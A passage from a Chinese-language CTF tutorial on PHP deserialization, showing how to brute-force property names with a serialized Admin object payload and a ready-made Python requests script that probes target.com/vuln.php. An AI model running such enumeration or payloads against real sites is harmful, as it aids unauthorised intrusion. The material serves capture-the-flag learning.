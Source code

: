 | token    | 令牌             |

（有些比赛出的题习惯用很短的，比如 `a`, `b`, `p`, `u`，可以一起带进去爆破）

------

## 🧩 手动爆破示范

假设你已经爆破出类名是 `Admin`。
 现在要爆破属性名，可以构造 payload：

```php
O:5:"Admin":1:{s:5:"admin";s:5:"admin";}
```

解释一下：

- `O:5:"Admin"` ：对象是 Admin，类名 5 个字符
- `1` ：有1个属性
- `{s:5:"admin";s:5:"admin";}` ：属性名是 `"admin"`，值是 `"admin"`

然后发过去：

```php
http://target.com/vuln.php?p=O:5:"Admin":1:{s:5:"admin";s:5:"admin";}
```

如果返回：

```php
Undefined property: Admin::$admin
```

说明属性不存在，需要换一个属性名。

如果不报 Undefined property，就可能猜对了！

------

## ⚡ 自动爆破属性名脚本（送你一份现成的）

```python
import requests

url = "http://target.com/vuln.php"
classname = "Admin"
props = ["admin", "user", "passwd", "password", "username", "id", "role"]

for prop in props:
    payload = f'O:{len(classname)}:"{classname}":1:{{s:{len(prop)}:"{prop}";s:5:"admin";}}'
    r = requests.get(url, params={"p": payload})
    if "Undefined property" not in r.text:
        print(f"[*] Possible property found: {prop}")
```

**原理就是**爆一次，看一次页面返回有没有 `Undefined property`，过滤掉不对的。
